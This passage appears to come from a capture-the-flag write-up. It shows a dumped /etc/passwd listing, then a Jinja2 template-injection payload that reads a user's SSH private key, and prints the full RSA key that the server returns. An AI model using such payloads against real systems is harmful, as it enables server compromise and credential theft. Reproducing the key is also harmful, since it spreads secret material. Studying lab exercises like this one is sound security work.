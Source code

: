 ```bash
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
svc_acc:x:1000:1000:Service Account:/home/svc_acc:/bin/bash
rtkit:x:111:114:RealtimeKit,,,:/proc:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
avahi:x:113:116:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
cups-pk-helper:x:114:117:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
saned:x:115:119::/var/lib/saned:/usr/sbin/nologin
colord:x:116:120:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
pulse:x:117:121:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
geoclue:x:118:123::/var/lib/geoclue:/usr/sbin/nologin
smmta:x:119:124:Mail Transfer Agent,,,:/var/lib/sendmail:/usr/sbin/nologin
smmsp:x:120:125:Mail Submission Program,,,:/var/lib/sendmail:/usr/sbin/nologin
```

We find 2 users available to login:
```bash
root:x:0:0:root:/root:/bin/bash
svc_acc:x:1000:1000:Service Account:/home/svc_acc:/bin/bash
```

Looking for a ssh private key we find `/home/svc_acc/.ssh/id_rsa`.
```bash
## REQUEST
{{get_flashed_messages.__globals__.__builtins__.open("/home/svc_acc/.ssh/id_rsa").read()}}

## RESPONSE
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAqe5XWFKVqleCyfzPo4HsfRR8uF/P/3Tn+fiAUHhnGvBBAyrM
HiP3S/DnqdIH2uqTXdPk4eGdXynzMnFRzbYb+cBa+R8T/nTa3PSuR9tkiqhXTaEO
bgjRSynr2NuDWPQhX8OmhAKdJhZfErZUcbxiuncrKnoClZLQ6ZZDaNTtTUwpUaMi
/mtaHzLID1KTl+dUFsLQYmdRUA639xkz1YvDF5ObIDoeHgOU7rZV4TqA6s6gI7W7
d137M3Oi2WTWRBzcWTAMwfSJ2cEttvS/AnE/B2Eelj1shYUZuPyIoLhSMicGnhB7
7IKpZeQ+MgksRcHJ5fJ2hvTu/T3yL9tggf9DsQIDAQABAoIBAHCBinbBhrGW6tLM
fLSmimptq/1uAgoB3qxTaLDeZnUhaAmuxiGWcl5nCxoWInlAIX1XkwwyEb01yvw0
ppJp5a+/OPwDJXus5lKv9MtCaBidR9/vp9wWHmuDP9D91MKKL6Z1pMN175GN8jgz
W0lKDpuh1oRy708UOxjMEalQgCRSGkJYDpM4pJkk/c7aHYw6GQKhoN1en/7I50IZ
uFB4CzS1bgAglNb7Y1bCJ913F5oWs0dvN5ezQ28gy92pGfNIJrk3cxO33SD9CCwC
T9KJxoUhuoCuMs00PxtJMymaHvOkDYSXOyHHHPSlIJl2ZezXZMFswHhnWGuNe9IH
Ql49ezkCgYEA0OTVbOT/EivAuu+QPaLvC0N8GEtn7uOPu9j1HjAvuOhom6K4troi
WEBJ3pvIsrUlLd9J3cY7ciRxnbanN/Qt9rHDu9Mc+W5DQAQGPWFxk4bM7Zxnb7Ng
Hr4+hcK+SYNn5fCX5qjmzE6c/5+sbQ20jhl20kxVT26MvoAB9+I1ku8CgYEA0EA7
t4UB/PaoU0+kz1dNDEyNamSe5mXh/Hc/mX9cj5cQFABN9lBTcmfZ5R6I0ifXpZuq
0xEKNYA3HS5qvOI3dHj6O4JZBDUzCgZFmlI5fslxLtl57WnlwSCGHLdP/knKxHIE
uJBIk0KSZBeT8F7IfUukZjCYO0y4HtDP3DUqE18CgYBgI5EeRt4lrMFMx4io9V3y
3yIzxDCXP2AdYiKdvCuafEv4pRFB97RqzVux+hyKMthjnkpOqTcetysbHL8k/1pQ
GUwuG2FQYrDMu41rnnc5IGccTElGnVV1kLURtqkBCFs+9lXSsJVYHi4fb4tZvV8F
ry6CZuM0ZXqdCijdvtxNPQKBgQC7F1oPEAGvP/INltncJPRlfkj2MpvHJfUXGhMb
Vh7UKcUaEwP3rEar270YaIxHMeA9OlMH+KERW7UoFFF0jE+B5kX5PKu4agsGkIfr
kr9wto1mp58wuhjdntid59qH+8edIUo4ffeVxRM7tSsFokHAvzpdTH8Xl1864CI+
Fc1NRQKBgQDNiTT446GIijU7XiJEwhOec2m4ykdnrSVb45Y6HKD9VS6vGeOF1oAL
K6+2ZlpmytN3RiR9UDJ4kjMjhJAiC7RBetZOor6CBKg20XA1oXS7o1eOdyc/jSk0
kxruFUgLHh7nEx/5/0r8gmcoCvFn98wvUPSNrgDJ25mnwYI0zzDrEw==
-----END RSA PRIVATE KEY-----
```
